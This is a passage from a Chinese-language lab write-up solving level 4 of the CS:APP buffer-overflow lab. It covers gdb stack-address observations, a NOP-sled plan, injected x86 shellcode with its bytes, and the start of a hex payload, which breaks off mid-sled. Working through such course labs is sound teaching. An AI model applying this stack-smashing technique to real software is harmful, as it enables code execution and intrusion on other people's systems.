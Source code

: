 ```bash
Continuing.
Type string:a
Dud: getbufn returned 0x1
Better luck next time
[Inferior 1 (process 11263) exited normally]
```

可以得到五次地址分别是 `0x556833a8` `0x55683378` `0x556833d8` `0x55683368` `0x55683358`,偏移范围是0x80

注意到本次缓冲区的长度是0x208(520字节),所以缓冲区的长度大于栈地址的偏移范围,所以我们可以将将返回地址设定为一个最大的栈起始地址,缓冲区全部使用nop指令,滑落到栈底(栈空间中的高位地址),然后执行我们的攻击代码

同时ebp的值虽然不确定,但是可以通过前后汇编得到ebp和esp的关系是ebp = esp+0x28

修改返回值eax为cookie,记录testn调用getbufn的返回地址`0x08048e3a`,所以可以构造攻击汇编代码

```x86asm
lea 0x28(%esp),%ebp
movl $0x1005b2b7,%eax
push $0x08048e3a
ret
```

字节码如下

```txt
level4.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   8d 6c 24 28             lea    0x28(%esp),%ebp
   4:   b8 b7 b2 05 10          mov    $0x1005b2b7,%eax
   9:   68 3a 8e 04 08          push   $0x8048e3a
   e:   c3                      ret
```

栈空间情况如下图所示

![20221111023303](https://raw.githubusercontent.com/learner-lu/picbed/master/20221111023303.png)

```txt
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
```